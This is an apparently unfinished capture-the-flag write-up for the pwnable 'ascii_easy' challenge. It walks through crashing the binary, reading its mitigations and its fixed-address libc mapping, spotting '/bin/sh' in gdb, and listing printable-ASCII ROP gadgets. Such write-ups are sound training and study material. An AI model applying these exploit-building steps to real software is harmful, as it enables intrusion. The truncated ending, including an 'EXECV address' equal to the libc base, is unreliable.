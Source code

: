 # ASCII Easy

```
We often need to make 'printable-ascii-only' exploit payload.  You wanna try?

hint : you don't necessarily have to jump at the beggining of a function. try to land anyware.
```

Interesting...


```bash
ascii_easy@pwnable:~$ ls
ascii_easy  ascii_easy.c  flag  intended_solution.txt  libc-2.15.so
ascii_easy@pwnable:~$ ./ascii_easy
usage: ascii_easy [ascii input]
ascii_easy@pwnable:~$ ./ascii_easy hello_world
triggering bug...
ascii_easy@pwnable:~$ ./ascii_easy AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
triggering bug...
Segmentation fault (core dumped)
ascii_easy@pwnable:~$
```

## Binary Information

```bash
$ file ascii_easy
ascii_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a74cff7b340c23d3f90db3d934c4ca328c4a6b8, not stripped
$ checksec ascii_easy
[*] '/media/or/organic_drive/disk_content/workspace/ctfs/pwnable/ascii_easy/ascii_easy'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



### Research

The binary loads libc library by using mmap with a fixed base
address, so ASLR is not a concern:


```C

#define BASE ((void*)0x5555e000)

void main(int argc, char* argv[]){
    ...
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    
    ...

    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        ...
    }
```


and ascii validation is applied to our input:

```C
int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}
```

So we need to find ascii printable gadgets.



EXECV address is: `0x5555e000`


```
Breakpoint 1, 0x08048532 in vuln ()
(gdb) x/1s $edx                                                                                                                                                                                             
0xffe33bb0:     "@gaU/bin/sh"
```
ROPgadget --binary ./libc-2.15.so --offset 0x5555e000 --badbytes "00-1f|80-ff > gadgets.txt

```


